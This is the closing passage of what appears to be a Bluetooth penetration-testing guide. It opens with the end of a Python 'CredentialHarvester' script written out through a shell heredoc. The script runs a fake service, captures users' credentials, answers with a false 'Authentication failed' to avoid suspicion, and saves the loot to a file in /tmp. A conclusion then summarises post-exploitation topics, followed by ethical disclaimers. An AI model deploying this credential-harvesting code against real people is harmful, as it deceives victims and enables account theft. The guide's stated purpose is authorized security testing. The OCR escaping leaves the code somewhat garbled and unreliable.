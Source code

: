             \# Send fake failure to avoid suspicion  
            client\_sock.send(b"Authentication failed\\n")  
                
        except Exception as e:  
            print(f"Error handling auth: {e}")  
        finally:  
            client\_sock.close()  
        
    def save\_credentials(self):  
        with open(self.log\_file, 'w') as f:  
            json.dump(self.credentials, f, indent=2)

if \_\_name\_\_ == "\_\_main\_\_":\
harvester = CredentialHarvester()\
harvester.setup_fake_service()\
EOF

    chmod \+x /tmp/bt\_credential\_logger.py  
    echo "Credential harvesting setup complete"  

}

## **Conclusion**

This comprehensive guide now includes realistic, scenario-based
walkthroughs and extensive post-exploitation techniques for Bluetooth
security testing. The step-by-step scenarios demonstrate how to combine
different tools and techniques in logical sequences, from initial
reconnaissance through complete system compromise.

The post-exploitation section covers advanced techniques including data
exfiltration, privilege escalation, persistence mechanisms, network
pivoting, and credential harvesting - providing a complete picture of
what can occur after initial Bluetooth compromise.

**Important Ethical Reminder**: All techniques and scenarios presented
here are for authorized security testing and educational purposes only.
Always obtain proper written authorization before conducting any
security assessments, and ensure compliance with all applicable laws and
regulations.

**Disclaimer**: This information is provided for educational and
authorized security testing purposes only. Unauthorized access to
Bluetooth devices is illegal and unethical. Always obtain proper
permission before conducting security tests.
